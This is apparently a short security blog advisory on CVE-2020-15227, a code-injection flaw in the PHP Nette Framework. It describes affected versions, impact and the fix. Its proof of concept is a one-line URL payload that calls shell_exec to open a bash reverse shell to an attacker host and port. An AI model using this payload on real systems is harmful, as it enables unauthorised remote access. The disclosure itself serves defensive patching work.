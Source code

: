 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Nette Framework: CVE-2020-15227"
date:   2020-10-16 00:15:00 +1000
categories:
  - Web Application Pentest
  - CVE
tags:
  - CVE-2020-15227
  - RCE
  - PHP
---
```


# Nette Framework:
Nette Framework is an open-source framework for creating web applications in PHP 5 and 7. It supports AJAX, DRY, KISS, MVC and code reusability. Original author of the framework is David Grudl, but further development is now maintained by the Nette Foundation organization. Nette is a free software released under both[2] the New BSD license and the GNU GPL version 2 or 3.

# Issue Description:
Packages nette/application versions prior to 2.2.10, 2.3.14, 2.4.16, 3.0.6 and nette/nette versions prior to 2.0.19 and 2.1.13 are vulnerable to an code injection attack by passing specially formed parameters to URL that may possibly leading to RCE.

Thanks to Cyku Hong

# Proof of Concept:
```
/nette.micro?callback=shell_exec&cmd=bash%20-i%20>&%20/dev/tcp/'+lhost+'/'+lport+'0>&1
```

# Impact:

Code injection, possible remote code execution.

# Recommendation:

Update Nette Framework to latest version.
